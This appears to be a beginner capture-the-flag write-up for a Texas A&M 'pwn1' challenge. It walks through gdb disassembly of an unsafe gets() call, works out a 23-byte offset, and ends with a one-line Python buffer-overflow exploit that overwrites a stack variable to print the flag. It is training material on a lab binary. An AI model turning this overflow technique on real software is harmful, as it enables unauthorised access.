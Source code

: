 From [Medium](https://anee.me/intro-to-pwn-65876c0cb558)
	The binaries and stuff are available
This guide goes through n00b-friendly CTF questions from Texas A&M
# Pwn 1
This is a short binary with a well-known vuln
###### First Run:
```
vagrant@vagrant-ubuntu-trusty-64:/vagrant$ ./pwn1  
This is a super secret program  
Noone is allowed through except for those who know the secret!  
What is my secret?  
AAA  
That is not the secret word!
```
The binary asks for a secret word.
...so what's happening here

Set a breakpoint in `main`
```
vagrant@vagrant-ubuntu-trusty-64:/vagrant$ gdb pwn1  
gdb-peda$ break main  
Breakpoint 1 at 0x80485c0  
gdb-peda$ set disassembly-flavor intel
```
Run and see what happens
```
gdb-peda$ run  
Starting program: /vagrant/pwn1
```

Code:
```
   0x80485bc <main+10>: push ebp  
   0x80485bd <main+11>: mov ebp,esp  
   0x80485bf <main+13>: push ecx  
=> 0x80485c0 <main+14>: sub esp,0x24  
   0x80485c3 <main+17>: mov eax,ds:0x804a030  
   0x80485c8 <main+22>: push 0x0  
   0x80485ca <main+24>: push 0x0  
   0x80485cc <main+26>: push 0x2
```
Registers:
```
EAX: 0x1  
EBX: 0xf7fca000 --> 0x1acda8  
ECX: 0xffffd710 --> 0x1  
EDX: 0xffffd734 --> 0xf7fca000 --> 0x1acda8  
ESI: 0x0  
EDI: 0x0  
EBP: 0xffffd6f8 --> 0x0  
ESP: 0xffffd6f4 --> 0xffffd710 --> 0x1  
EIP: 0x80485c0 (<main+14>: sub esp,0x24)  
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
```
Stack
```
0000| 0xffffd6f4 --> 0xffffd710 --> 0x1
0004| 0xffffd6f8 --> 0x0
0008| 0xffffd6fc --> 0xf7e36af3 (<__libc_start_main+243>: mov    DWORD PTR [esp],eax)
0012| 0xffffd700 --> 0x8048650 (<__libc_csu_init>: push   ebp)
0016| 0xffffd704 --> 0x0
0020| 0xffffd708 --> 0x0
0024| 0xffffd70c --> 0xf7e36af3 (<__libc_start_main+243>: mov    DWORD PTR [esp],eax)
0028| 0xffffd710 --> 0x1
```

Get to breakpoint at main:
```
Breakpoint 1, 0x080485c0 in main ()  
gdb-peda$ disassemble main  
Dump of assembler code for function main:  
   ...ommitted for brevity..
   0x080485bf <+13>: push ecx  
=> 0x080485c0 <+14>: sub esp,0x24  
   ...ommitted for brevity.. 
   0x0804860e <+92>: sub esp,0xc  
   0x08048611 <+95>: lea eax,[ebp-0x23]  
   0x08048614 <+98>: push eax  
   0x08048615 <+99>: call 0x80483d0 <gets@plt>**  
   0x0804861a <+104>: add esp,0x10  
   0x0804861d <+107>: cmp DWORD PTR [ebp-0xc],0xf007ba11  
   0x08048624 <+114>: jne 0x804862d <main+123>  
   0x08048626 <+116>: call 0x804854b <print_flag>  
   0x0804862b <+121>: jmp 0x804863d <main+139>  
   ...omitted for brevity... 
End of assembler dump.  
gdb-peda$
```

The insecure function `get` is called at `0x08048615`. Before the call, the relative virtual address (RVA) `[ebp-0x23]` is loaded onto the stack.
```
   0x08048611 <+95>: lea eax,[ebp-0x23]  
   0x08048614 <+98>: push eax  
   0x08048615 <+99>: call 0x80483d0 <gets@plt>**  
```
This is the first argument to `gets`, the address that the call will write to.

After the call, it checks to see if `ebp-0xc` is equal to `0xf007ba11`
To solve the challenge, we need to overwrite `ebp-0xc` to the required value.

To find the offset between two RVAs, subtract them.
```
  [Write Address] - [CMP Address]
= [ebp-0x23] - [ebp-0xc]
= 0x23 - 0xc = 35 - 12
= 23
```
So anything we enter after 23 characters will go into `ebp-0xc`

Exploit:
```python
$ python -c 'print "AAAAAAAAAAAAAAAAAAAAAAA\x11\xba\x07\xf0"' | ./pwn1
```